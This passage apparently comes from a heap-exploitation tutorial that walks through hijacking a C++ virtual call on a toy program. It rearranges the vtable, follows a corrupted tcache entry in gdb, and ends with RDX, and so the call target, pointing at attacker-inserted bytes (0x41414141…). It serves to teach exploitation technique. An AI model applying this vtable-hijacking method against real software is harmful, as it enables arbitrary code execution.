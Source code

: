 This should adjust the vtable to look like this:

```
offset  target function
------  ----------------
 0x0     foo
 0x8     do_something
```

Implement `Item::foo` however you want. Then, compile it, and observe that an offset of 0x8 is added to the virtual call instructions:

```
   0x0000000000400d2c <+286>:   mov    rax,QWORD PTR [rax]
   0x0000000000400d2f <+289>:   mov    rdx,QWORD PTR [rax]
   0x0000000000400d32 <+292>:   add    rdx,0x8
   0x0000000000400d36 <+296>:   mov    rdx,QWORD PTR [rdx]
   ...
   0x0000000000400d3c <+302>:   call   rdx
```

Let it run and let it crash:

```
Program received signal SIGSEGV, Segmentation fault.
0x00000000006e01d0 in ?? ()
```

Now, instead of failing at `tcache_entry->next`, it fails at a fake `tcache_entry->key`:

```
(gdb) x/4gx 0x00000000006f2b80
0x6f2b80:       0x0000000000000000    0x00000000006e01d0
0x6f2b90:       0x0041414141414141    0x0000000000000021
```

So, this matches what we expected to happen.

Now, let's add a final trivial virtual function, `bar`, to complete the vtable and gain some control over the execution:

```
offset  target function
------  ----------------
 0x0     foo
 0x8     bar
0x10     do_something
```

CALL RDX now points to whatever we inserted in the buffer earlier:

```
Program received signal SIGSEGV, Segmentation fault.
0x0000000000400d3c in main ()
42        v[0]->do_something();

(gdb) x/i $pc
=> 0x400d3c <main()+302>:       call   rdx

(gdb) print/x $rdx
$1 = 0x41414141414141
```
